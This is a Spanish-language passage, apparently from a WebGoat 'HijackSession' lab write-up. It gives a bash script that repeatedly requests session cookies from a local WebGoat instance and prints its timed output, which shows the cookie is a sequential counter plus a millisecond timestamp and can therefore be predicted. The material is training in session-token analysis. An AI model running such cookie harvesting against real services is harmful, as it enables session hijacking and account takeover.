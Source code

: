 Vamos analizar el comportamiento añadiendo un delay en las peticiones

```bash
#!/bin/bash
parte1_tmp=0
parte2_tmp=0
limit=$2
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))
	parte1_tmp=$parte1
	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	parte2_tmp=$parte2
	echo "$parte1 ($diferencia1) + $parte2 ($diferencia2)"
	sleep $3
done

```

Con el tercer argumento de `./script.sh $JSESSIONID 20 0.5` estamos definiendo en segundos el tiempo de espera, en este caso 500ms y este coincide con la diferencia de la segunda parte, así podemos estar casi seguros de que se trata de una marca temporal:

```plaintext
4745395612611419539 (4745395612611419539) + 1686442460475 (1686442460475)
4745395612611419541 (2) + 1686442461001 (526)
4745395612611419543 (2) + 1686442461526 (525)
4745395612611419544 (1) + 1686442462048 (522)
4745395612611419545 (1) + 1686442462575 (527)
4745395612611419546 (1) + 1686442463097 (522)
4745395612611419547 (1) + 1686442463624 (527)
4745395612611419548 (1) + 1686442464153 (529)
4745395612611419549 (1) + 1686442464677 (524)
4745395612611419551 (2) + 1686442465250 (573)
4745395612611419552 (1) + 1686442465779 (529)
4745395612611419553 (1) + 1686442466309 (530)
4745395612611419554 (1) + 1686442466835 (526)
4745395612611419555 (1) + 1686442467363 (528)
4745395612611419556 (1) + 1686442467888 (525)
4745395612611419557 (1) + 1686442468416 (528)
4745395612611419558 (1) + 1686442468937 (521)
4745395612611419559 (1) + 1686442469465 (528)
4745395612611419560 (1) + 1686442469992 (527)
4745395612611419561 (1) + 1686442470517 (525)

```
